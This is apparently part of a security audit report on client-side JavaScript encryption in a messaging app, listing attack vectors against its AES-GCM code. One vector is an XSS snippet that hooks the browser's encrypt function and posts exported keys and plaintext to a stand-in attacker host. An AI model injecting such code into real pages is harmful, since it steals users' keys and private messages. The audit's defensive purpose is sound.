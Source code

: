 
## 4. Cryptographic Implementation Weaknesses

### 4.1 CRITICAL: Client-Side Encryption Leaves Keys Vulnerable

**Severity:** CRITICAL  
**CVSS Score:** 8.5

**Vulnerability Description:**

All encryption happens in JavaScript, which is fully accessible to attackers:

```javascript
// client/src/utils/crypto.js
export async function encryptMessage(messageObj, contentKey) {
  const messageJson = JSON.stringify(messageObj);
  const enc = new TextEncoder();
  const messageBuffer = enc.encode(messageJson);
  
  const iv = new Uint8Array(12);
  window.crypto.getRandomValues(iv);  // ← Client-side randomness
  
  const encrypted = await window.crypto.subtle.encrypt(
    { name: 'AES-GCM', iv: iv },
    contentKey,
    messageBuffer
  );
  
  return bufferToHex(result.buffer);
}
```

**Attack Vectors:**

1. **Browser Extension Hijacking:**
   - Malicious browser extension can access Web Crypto API
   - Intercept calls to `window.crypto.subtle.encrypt()`
   - Extract keys and plaintext messages before encryption

2. **JavaScript Injection:**
   ```javascript
   // Attacker injects this into page via XSS
   const originalEncrypt = window.crypto.subtle.encrypt;
   window.crypto.subtle.encrypt = async function(...args) {
     console.log('Intercepted encryption:', args);
     // Exfiltrate keys and plaintext
     fetch('https://attacker.com/steal', {
       method: 'POST',
       body: JSON.stringify({
         key: await crypto.subtle.exportKey('raw', args[1]),
         data: Array.from(new Uint8Array(args[2]))
       })
     });
     return originalEncrypt.apply(this, args);
   };
   ```
